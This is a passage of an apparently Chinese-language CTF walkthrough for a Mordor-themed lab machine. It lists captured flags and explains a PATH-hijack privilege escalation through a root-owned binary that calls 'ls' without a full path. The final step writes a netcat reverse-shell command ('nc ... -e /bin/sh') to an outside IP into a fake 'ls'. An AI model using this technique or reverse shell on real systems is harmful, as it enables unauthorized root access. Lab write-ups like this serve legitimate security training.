 ```python
if lp > 0:
    print("You defeated Sauron")
```

完成三次挑战就可得到三个flag：

```txt
flag{63905253a3f7cde76ef8ab3adcae7d278b4f5251}
flag{dca13eaacea2f4d8c28b00558a93be0c2622bbe1}
flag{79bed0c263a21843c53ff3c8d407462b7f4b8a4a}
```

### flag9

在 *barad_dur* 的用户目录下存在一个*root* 用户组的程序：`plans`

```shell
ls -al
insgesamt 60
drwx------ 3 barad_dur barad_dur  4096 Jan  4  2020 .
drwxr-xr-x 6 root      root       4096 Aug 13  2019 ..
lrwxrwxrwx 1 root      root          9 Aug 15  2019 .bash_history -> /dev/null
-rw-r--r-- 1 barad_dur barad_dur   220 Aug 13  2019 .bash_logout
-rw-r--r-- 1 barad_dur barad_dur  5255 Jan  4  2020 .bashrc
drwxr-xr-x 3 barad_dur barad_dur  4096 Aug 15  2019 .local
-rwxr-xr-x 1 root      root      16712 Aug 15  2019 plans
-rw-r--r-- 1 barad_dur barad_dur   807 Aug 13  2019 .profile
-rwxr-xr-x 1 root      root       2261 Jan  4  2020 sauron.py
-rwxr--r-- 1 root      root       4463 Aug 13  2019 sauron.txt
```

使用IDA工具进行分析，发现该程序是执行 `ls /root` 命令，因此这里存在 `$PATH` 提权漏洞

![6]({{ '/mordor_ctf/6.png' | prepend: site.url }})

### 提权

```shell
echo "nc 192.168.174.128 8899 -e /bin/sh" > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
```

查看 `/root/flag.txt`，至此得到最后一个flag：`flag{262efbb6087a6aae46f029a2ff19f9f409c9cd3d}`

